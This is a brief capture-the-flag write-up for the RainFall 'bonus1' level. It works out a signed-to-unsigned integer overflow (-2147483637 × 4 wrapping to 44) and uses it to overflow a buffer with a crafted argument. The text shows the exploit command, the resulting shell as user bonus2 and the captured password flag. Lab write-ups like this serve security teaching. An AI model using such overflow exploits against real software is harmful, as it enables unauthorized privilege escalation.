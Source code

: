 so we need a negative number which mulitply by 4 equal 44 after signed -> unsigned

https://www.binaryconvert.com/

unsigned 44 = 00000000 00000000 00000000 00101100

signed 11 = 00000000 00000000 00000000 00001011
10000000 00000000 00000000 00001011 = -2147483637

with overflow -2147483637 * 4 = 00000000 00000000 00000000 00101100

```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "\x90" * 40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```